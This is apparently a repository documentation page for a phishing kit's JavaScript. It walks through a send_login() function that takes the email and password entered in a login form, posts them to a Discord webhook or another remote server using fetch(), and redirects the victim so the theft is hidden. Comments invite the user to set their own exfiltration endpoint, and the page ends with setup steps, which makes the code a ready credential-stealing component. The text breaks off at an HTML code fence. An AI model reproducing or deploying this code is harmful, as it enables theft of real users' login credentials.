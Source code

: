 # JavaScript/HTML Documentation

- This JavaScript code aims to send the credentials entered in an HTML form to a Discord Webhook or any other remote server. The code is written as an asynchronous function named **send_login()**, which is called when the user presses the login button in the HTML form.
```JavaScript
async function send_login() {
    // ...
}
```

- The first thing the code does is to set the **discord_webhook_url** constant to the Discord Webhook URL where the message containing the credentials will be sent. Then, the **email** and **password** values are retrieved from the form input fields using their **id** attributes.
```JavaScript
    // SET YOUR DISCORD WEBHOOK or whatever you want to exfiltrate the data
    const discord_webhook_url = "https://discord.com/api/webhooks/123/abc";

    // Retrieve data from POST form
    const email = document.getElementById('email').value;
    const password = document.getElementById('password').value;
```

- After that, a **message** variable is created by concatenating the **email** and **password** values. This message will be sent to the Discord Webhook.
```JavaScript
    // Create message content
    const message = "Email: " + email + " \n " + "Password: " + password;
```

- The **fetch()** method is used to send an HTTP POST request to the Discord Webhook URL. The request body is a JSON object that contains the **message** content. If the response status is **ok**, the user is redirected to the specified URL, which is set in the **window.location.href** property. Otherwise, a generic error is thrown.
```JavaScript
    // Send POST request to Discord webhook URL
    const response = await fetch(discord_webhook_url, {
        method: "POST",
        headers: {
            "Content-Type": "application/json"
        },
        body: JSON.stringify({ content: message })
    });
    if (response.ok) {
        // DEFINE the redirect link preferred
        window.location.href = "https://www.example.com";
    } else {
        // Otherwise, throw a generic error
        throw new Error('Generic error!');
```

- If an error occurs during the execution of the **fetch()** method, it will be caught by the **catch()** block and logged to the console using the **console.error()** method.
```JavaScript
    try{
        // ...
    } catch (error) {
        // Log any errors to the console
        console.error(error);
    }
```

- To use this code, you need to replace the **discord_webhook_url** constant with the actual Discord Webhook URL or the URL of any other remote server that you want to send the message to. You also need to ensure that the **id** attributes of the email and password input fields in the HTML form match the values used in the **getElementById()** method calls. Finally, you need to call the **send_login()** function when the user submits the form.
```HTML